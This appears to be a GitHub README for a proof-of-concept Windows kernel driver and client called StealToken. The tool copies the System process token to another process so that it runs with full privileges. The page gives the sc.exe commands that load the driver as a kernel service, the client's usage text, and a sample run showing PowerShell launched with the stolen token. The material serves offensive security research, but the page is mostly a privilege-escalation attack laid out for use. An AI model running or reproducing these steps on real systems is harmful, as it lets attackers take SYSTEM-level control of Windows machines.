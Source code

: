 # StealToken

PoCs to perform token stealing from kernelmode.

## Installation

```
PS C:\> sc.exe create StealToken type= kernel binpath= C:\Dev\StealTokenDrv_x64.sys
PS C:\> sc.exe start StealToken
```

## Client Program Usage

Client program performs token stealing and executes a specified command.

```
PS C:\Dev> .\StealTokenClient.exe -h

StealTokenClient - Client for StealTokenDrv.

Usage: StealTokenClient.exe [Options]

        -h, --help    : Displays this help message.
        -p, --pid     : Specifies a target PID in decimal format. Use with -s flag, or -e and -H flag.
        -c, --command : Specifies command to execute. Default is "cmd.exe".

[!] -p option is required.
```

To use this client program, specifies target PID with `-p` option.
Command to execute can be specified with `-c` option.
If you do not specify any command, this PoC try to execute `cmd.exe` as a full privileged process:

```
PS C:\Dev> .\StealTokenClient.exe -p 4 -c powershell

[>] Sending a query to \??\StealToken.
[+] Got a handle to \??\StealToken (Handle = 0x2E8)
[+] Token stealing from PID 4 to 5880 is successful.
[>] Trying to create new process.
[+] New process is executed successfully.
    [*] Process ID : 240
    [*] Thread ID  : 664
[*] Done.
```

![](./figures/StealToken.png)